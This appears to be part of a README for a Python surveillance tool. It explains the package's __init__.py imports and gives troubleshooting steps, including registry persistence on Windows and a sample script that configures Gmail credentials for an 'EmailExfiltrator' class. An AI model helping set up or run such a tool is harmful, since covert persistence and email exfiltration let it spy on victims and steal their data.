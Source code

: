 ## About `__init__.py`

The `__init__.py` file serves several purposes:

1. **Package Marker**: Makes the `core/` directory a Python package
2. **Import Simplification**: Allows importing like `from core import SurveillanceEngine`
3. **API Exposure**: Defines what classes/functions are publicly available
4. **Namespace Management**: Controls what gets imported with `from core import *`

Without `__init__.py`, you'd need to import like:
```python
from core.surveillance import SurveillanceEngine
```

With `__init__.py`, you can import like:
```python
from core import SurveillanceEngine
```

## Troubleshooting

### Common Issues

1. **Import Errors**
   ```bash
   pip install -r requirements.txt
   ```

2. **Email Authentication Failed**
   - Verify app password is correct
   - Check 2FA is enabled
   - Try different SMTP settings

3. **Permission Errors (Linux/Mac)**
   ```bash
   sudo pip install -r requirements.txt
   ```

4. **Windows Registry Access**
   - Run as Administrator for registry persistence
   - Or disable registry persistence in config

### Testing Email Configuration
Create a test script:
```python
from core.communication import EmailExfiltrator

config = {
    'email': 'your_email@gmail.com',
    'password': 'your_app_password',
    'smtp_server': 'smtp.gmail.com',
    'smtp_port': 587,
    'use_tls': True
}

exfil = EmailExfiltrator(config)
success = exfil.email_exfil.send_email("Test", "Test message")
print(f"Email sent: {success}")
```
